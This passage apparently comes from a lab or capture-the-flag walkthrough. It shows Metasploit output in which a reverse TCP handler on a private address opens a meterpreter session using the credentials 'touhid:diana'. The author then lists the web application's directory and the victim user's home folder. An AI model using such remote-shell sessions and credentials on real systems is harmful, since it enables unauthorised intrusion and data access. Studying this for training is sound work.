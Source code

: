 Obtaining a Meterpreter Session and explore the target filesystem

```bash
[*] Started reverse TCP handler on 192.168.1.8:4444 
[+] Authentication successful: touhid:diana
[*] Sending stage (40004 bytes) to 192.168.1.5
[*] Meterpreter session 1 opened (192.168.1.8:4444 -> 192.168.1.5:33711) at 2025-02-03 19:59:31 +0530
meterpreter > ls
Listing: /var/www/SecreTSMSgatwayLogin
======================================

Mode              Size            Type  Last modified                      Name
----              ----            ----  -------------                      ----
100644/rw-r--r--  12489764899676  fil   205275648719-02-23 07:24:30 +0530  config-dist.php
100644/rw-r--r--  12468290063191  fil   205275671312-02-04 01:39:32 +0530  config.php
040755/rwxr-xr-x  17592186048512  dir   205275648719-02-23 07:24:30 +0530  inc
100644/rw-r--r--  13765370186885  fil   205275648719-02-23 07:24:30 +0530  index.php
100644/rw-r--r--  57823144719511  fil   205275648719-02-23 07:24:30 +0530  init.php
040755/rwxr-xr-x  17592186048512  dir   205275648855-03-31 13:52:47 +0530  lib
040755/rwxr-xr-x  17592186048512  dir   205275649399-08-27 15:45:55 +0530  plugin
040755/rwxr-xr-x  17592186048512  dir   205275649399-08-27 15:45:55 +0530  storage

meterpreter > cd /root
[-] stdapi_fs_chdir: Operation failed: 1
meterpreter > cd storage
meterpreter > ls
Listing: /var/www/SecreTSMSgatwayLogin/storage
==============================================

Mode              Size            Type  Last modified                      Name
----              ----            ----  -------------                      ----
100644/rw-r--r--  0               fil   205275649399-08-27 15:45:55 +0530  index.html
040755/rwxr-xr-x  17592186048512  dir   205275649535-10-04 22:14:12 +0530  plugin

meterpreter > cd /home
meterpreter > ls
Listing: /home
==============

Mode              Size            Type  Last modified                      Name
----              ----            ----  -------------                      ----
040755/rwxr-xr-x  17592186048512  dir   205277557278-10-30 11:41:41 +0530  touhid

meterpreter > cd touhid
meterpreter > ls
Listing: /home/touhid
=====================

Mode              Size             Type  Last modified                      Name
----              ----             ----  -------------                      ----
100600/rw-------  6657199310350    fil   205276455396-04-06 11:19:49 +0530  .ICEauthority
100600/rw-------  210453397553     fil   205276455396-04-06 11:19:49 +0530  .Xauthority
100600/rw-------  5549097747724    fil   205277543804-09-21 19:01:38 +0530  .bash_history
100644/rw-r--r--  944892805340     fil   205266512321-07-28 13:32:37 +0530  .bash_logout
100644/rw-r--r--  14972255997342   fil   205266512321-07-28 13:32:37 +0530  .bashrc
040700/rwx------  17592186048512   dir   205276151888-08-04 04:07:59 +0530  .cache
040700/rwx------  17592186048512   dir   205275969511-10-14 20:28:19 +0530  .config
040700/rwx------  17592186048512   dir   205266564993-01-29 21:58:16 +0530  .dbus
100644/rw-r--r--  111669149722     fil   205276455396-04-06 11:19:49 +0530  .dmrc
040700/rwx------  17592186048512   dir   205276455532-05-14 17:48:06 +0530  .gconf
040700/rwx------  17592186048512   dir   205266566354-02-07 14:41:06 +0530  .gnome2
100600/rw-------  0                fil   205276419601-05-31 13:21:18 +0530  .goutputstream-00H37Y
100600/rw-------  0                fil   205277557278-10-30 11:41:41 +0530  .goutputstream-VO007Y
```
